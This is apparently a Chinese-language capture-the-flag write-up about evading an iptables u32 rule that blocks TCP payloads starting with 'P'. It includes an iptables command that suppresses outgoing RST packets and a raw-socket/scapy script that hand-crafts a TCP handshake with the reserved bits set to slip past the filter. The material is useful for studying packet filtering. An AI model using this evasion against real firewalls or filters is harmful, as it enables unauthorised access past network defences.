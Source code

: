 ### 我的 P

规则是 `--u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50"`，研究了下 u32 过滤的格式，发现大概是过滤 TCP payload 第一个字节不能为 `P`。但问题在于中间 `12 >> 26` 没有取掩码，导致可能会被 TCP reserved field 干扰。原本我以为一些路由会不会直接把 reserved field 抹掉，不过后来实验验证还是不会。

接下来就是喜闻乐见的入门时间。由于没有什么方法（大概是我不知道）可以直接改这个 field，所以需要手动构造包用 raw socket 发。在 CSDN（嗯？怎么是你？）的帮助下理解了 IP 包、TCP 包的基本结构，TCP 三次握手，然后对着 Flag1 的 pcap 写出了 exp。

需要注意的是 Linux 在收到远端发回来的 TCP 包时如果本地没有对应请求会直接发 `RST` 重置，所以需要在本地先把 `RST` 屏蔽掉。

```bash
sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 202.38.93.111 -j DROP
```

另外一点比较蛋疼的是配置了半天 raw socket 参数后发现 `scapy` 有直接能用的发包和收包函数，但是也懒得改了。

```python
import socket
from scapy.all import IP, TCP, Raw, RandShort

token = 'XXX'

HOST = socket.gethostbyname(socket.gethostname())

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, True)

host, port = '202.38.93.111', 18081
# host, port = '127.0.0.1', 4444

sport = int(RandShort())

def send(p):
    p.show()
    s.sendto(p.build(), (host, port))

def recv():
    rp, addr = s.recvfrom(65536)
    while addr[0] != host:
        rp, addr = s.recvfrom(65536)
    print(addr, len(rp), rp)
    rp = IP(rp)/TCP()
    rp.show()
    return rp

send(IP(dst=host)/TCP(flags='S', sport=sport, dport=port))

rp = recv()
send(IP(dst=host)/TCP(flags='A', sport=sport, dport=port, seq=rp.ack, ack=rp.seq+1))

content = f'POST / HTTP/1.1\r\nHost: {host}\r\nContent-Length: {len(token)}\r\n\r\n{token}'.encode()
send(IP(dst=host)/TCP(flags='PA', sport=sport, dport=port, seq=rp.ack, ack=rp.seq+1, reserved=127)/Raw(content))

recv()
recv()
```
